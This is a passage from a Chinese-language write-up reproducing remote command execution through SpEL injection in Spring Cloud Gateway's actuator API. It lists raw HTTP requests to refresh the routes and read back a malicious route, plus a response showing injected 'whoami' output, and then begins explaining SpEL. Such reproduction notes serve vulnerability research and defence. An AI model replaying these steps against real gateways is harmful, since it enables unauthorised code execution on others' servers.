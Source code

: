    

3. 发送 `POST` 请求刷新过滤器（最后一行加了一个 `a=1` 的参数，是因为在复现时发现不加参数偶尔会出现请求响应超时，这个参数本身没有实际意义）

   ```
   POST /actuator/gateway/refresh HTTP/1.1
   Host: localhost:9998
   Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
   Accept-Encoding: gzip, deflate
   Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
   Connection: keep-alive
   Content-Length: 3
   Content-Type: application/x-www-form-urlencoded
   Origin: null
   Sec-Fetch-Dest: document
   Sec-Fetch-Mode: navigate
   Sec-Fetch-Site: cross-site
   Upgrade-Insecure-Requests: 1
   User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:97.0) Gecko/20100101 Firefox/97.0
   
   a=1
   ```

   

4. 发送 `GET` 请求访问过滤器（`GET` 请求可以直接在浏览器中访问，需要注意这里的 `id` 是步骤1中创建路由的 `id`，也就是 `url` 中 `routes/hacktest` 中的 `hacktest`， 与 `body` 请求体中的 `id` 无关）

   ```
   http://localhost:9998/actuator/gateway/routes/hacktest
   ```

5. 返回信息如下，可以看到 `whoami` 命令执行并返回了结果

   ```json
   {
       "predicate": "RouteDefinitionRouteLocator$$Lambda$990/114757312",
       "route_id": "hacktest",
       "filters": [
       	"[[AddResponseHeader Result = 'desktop-3s3gqs9\\ambrosecdmeng\r\n'], order = 1]"
       ],
       "uri": "http://example.com:80",
       "order": 0
   }
   ```

   

## 原理分析

### SpEL 表达式

> `SpEL`（Spring Expression Language， Spring 表达语言），是比 `JSP` 的 `EL` 更强大的一种表达式语言。它是从 `Spring 3` 中开始引入的。

#### SpELl 表达式的使用
